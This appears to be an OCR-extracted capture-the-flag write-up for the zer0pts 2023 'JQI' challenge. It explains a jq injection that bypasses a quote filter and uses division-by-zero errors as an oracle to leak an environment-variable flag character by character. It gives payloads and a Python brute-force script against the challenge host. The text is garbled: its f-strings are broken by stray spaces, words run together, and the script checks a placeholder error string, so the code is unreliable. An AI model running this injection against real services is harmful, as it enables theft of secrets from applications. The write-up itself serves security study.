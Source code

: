 + JQ: JSON Queries
+ JQI: JQ injection
+ In this chall we need to abuse the weird functionality of jq injection
+ What `index.js` does?
    - An array KEYS is defined, containing keys that can be used in queries.
    - A route is defined to handle HTTP GET requests to the "/api/search" endpoint. This endpoint is used for performing JSON queries.
    - The query parameters keys and conds are parsed from the request's query string. If not present, default values are used.
    - If the number of keys or conds exceeds 10, an error response is sent back.
    - The script validates the specified keys and constructs a query for selecting specific keys from the JSON data.
    - The keysQuery variable is built by mapping the keys and creating a query string like name:.name,tags:.tags,....
    - For each condition, the script checks if the specified key is valid and then constructs a query that filters results using the select function. The condsQuery string is constructed by concatenating the filtering queries.
    - he jq.run function is used to execute the constructed query on the JSON data stored in the data.json file.The result is returned as a JSON object.
 
+ So, the webpage is basically the old archived challenges from zeropts 2022
```
 let condsQuery = '';

    for (const cond of conds) {
        const [str, key] = cond.split(' in ');
        if (!KEYS.includes(key)) {
            return reply.send({ error: 'invalid key' });
        }

        // check if the query is trying to break string literal
        if (str.includes('"') || str.includes('\\(')) {
            return reply.send({ error: 'hacking attempt detected' });
        }

        condsQuery += `| select(.${key} | contains("${str}"))`;
```
The code checks whether the str part of the condition contains potentially malicious content that might try to break out of the string literal or inject special characters.
The condition (str.includes('"') || str.includes('\\(')) checks if the string contains either a double quote (") or a backslash followed by an open parenthesis (\\(). These characters are often used in attempts to perform string manipulation or injection attacks.
Assuming the key and str are both valid and not attempting to perform a hack, the code constructs a partial jq query that will filter the JSON data based on the condition.
The format of the partial query is: | select(.key | contains("str")).
+ Payloads:
- \ in name
- ))]|123# in name

+ if conditions are given by a user, the app prints a sorry, you cannot use filters in demo versionand doesn't give us the result of the query. this as an oracle like Error-based SQL injection like getting an information if a condition is met, for example, the first character of the flag is zor not
+ You can use zero division to do Error-based jq injection like the below. Setting a divisor to a condition like if env.FLAG[0:1] == "z" then 0 else 1 endthat you want to know it is met or not, if the first character of env.FLAGis z, then error occurs because a dividend is divided by 0

```
import requests

HOST = 'http://jqi.2023.zer0pts.com:8300'

def  query (i, c):
    r = requests.get(f '{HOST}/api/search' , params={
         'keys' : 'name,author' ,
         'conds' : ',' .join(x for x in [
             ' \\ in name ' ,
            f '))]|env.FLAG[{i}:{i+1}]as$c|([{c}]|implode|1/(if($c==.)then(0)else( 1)end))# in name'
        ])
    })
    return  'something'  in r.json()[ 'error' ]

i = 0 
flag = '' 
while  not flag.endswith( '}' ):
     for c in  range ( 0x20 , 0x7f ):
         if query(i, c):
            flag += chr (c)
             continue 
    print (i, flag)
    i+= 1
```
This makes characters like [123]|implodeand checks those characters are same as the nth character of the flag.By repeating this, it steals the flag character by character.

